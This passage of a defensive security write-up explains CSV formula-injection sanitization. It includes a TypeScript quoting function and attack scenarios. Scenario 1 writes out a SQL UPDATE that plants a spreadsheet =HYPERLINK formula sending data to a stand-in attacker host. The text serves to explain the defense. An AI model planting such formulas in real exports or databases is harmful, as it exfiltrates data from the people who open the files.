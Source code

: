 ```typescript
  if (NEEDS_QUOTING_PATTERN.test(prefixedValue)) {
    return `"${escapedValue}"`;
  }

  return escapedValue;
}
```

**Benefits of wrapping ALL fields:**
- ✅ No runtime overhead (already optimized)
- ✅ Future-proof (new attack vectors covered)
- ✅ Consistent behavior (all fields treated equally)
- ✅ Easier to audit (no "trust list" needed)

---

## 📊 Attack Vector Examples (Why This Matters)

### Scenario 1: Malicious Date Injection
```javascript
// Attacker compromises database
UPDATE claims SET service_date = '=HYPERLINK("http://attacker.com?cookie=" & DOCUMENT(), "Click")' WHERE id = 123;

// Without sanitization:
// CSV cell: =HYPERLINK("http://attacker.com?cookie=" & DOCUMENT(), "Click")
// Excel executes: Sends document to attacker

// With sanitization:
// CSV cell: '=HYPERLINK("http://attacker.com?cookie=" & DOCUMENT(), "Click")
// Excel displays: Text (harmless)
```

### Scenario 2: Amount Manipulation
```javascript
// Edge case: Malformed amount
claim.claimAmountCents = "=1+1"; // Should be number, but validation fails

// Without sanitization:
// CSV: =1+1
// Excel: Displays 2 (incorrect data)

// With sanitization:
// CSV: '=1+1
// Excel: Displays =1+1 (shows corruption)
```

---

## ✅ Testing Verification
